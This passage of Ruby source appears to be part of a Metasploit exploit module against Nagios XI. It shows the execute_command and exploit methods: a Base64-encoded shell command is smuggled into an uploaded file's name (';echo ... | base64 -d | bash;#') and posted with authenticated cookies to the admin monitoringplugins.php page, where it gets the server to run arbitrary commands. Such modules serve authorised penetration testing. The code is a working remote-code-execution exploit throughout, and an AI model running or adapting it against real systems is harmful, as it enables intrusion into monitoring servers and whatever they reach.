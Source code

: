         return CheckCode::Safe
      end

      def execute_command(cmd, _opts = {})
        # Convert the payload to hex ASCII and then Base64 encode the payload.
        # This is necessary for the exploit to work.
        payload_ascii = Rex::Text.to_hex_ascii(cmd)
        payload_base64 = Rex::Text.encode_base64(payload_ascii)
        payload = ";echo #{payload_base64} | base64 -d | bash;#"
        register_file_for_cleanup("/usr/local/nagios/libexec/#{payload}") # deleting the payload via the web interface doesn't seem possible

        # generate post data
        post_data = Rex::MIME::Message.new
        random_post_content = rand_text_alphanumeric(8..12)
        post_data.add_part('', nil, nil, 'form-data; name="upload"')
        post_data.add_part(@nsp, nil, nil, 'form-data; name="nsp"')
        post_data.add_part(random_post_content, 'text/plain', nil, "form-data; name=\"uploadedfile\"; filename=\"#{payload}\"")
        post_data.add_part('1', nil, nil, 'form-data; name="convert_to_unix"')

        # upload payload
        send_request_cgi({
          'method' => 'POST',
          'uri' => normalize_uri(target_uri.path, 'admin', 'monitoringplugins.php'),
          'ctype' => "multipart/form-data; boundary=#{post_data.bound}",
          'cookie' => @auth_cookies,
          'data' => post_data.to_s
        }, 0) # don't wait for a response from the target, otherwise the module will hang for a few seconds after executing the payload
      end

      def exploit
        if @version < Rex::Version.new('5.3.0')
          fail_with(Failure::NoTarget, 'Target is vulnerable but this module currently does not support exploiting target prior to 5.3.0!')
        end

        # visit /admin/monitoringplugins.php in order to get the nsp token required to upload the payload
        res = send_request_cgi({
          'method' => 'GET',
          'uri' => normalize_uri(target_uri.path, 'admin', 'monitoringplugins.php'),
          'cookie' => @auth_cookies
        })
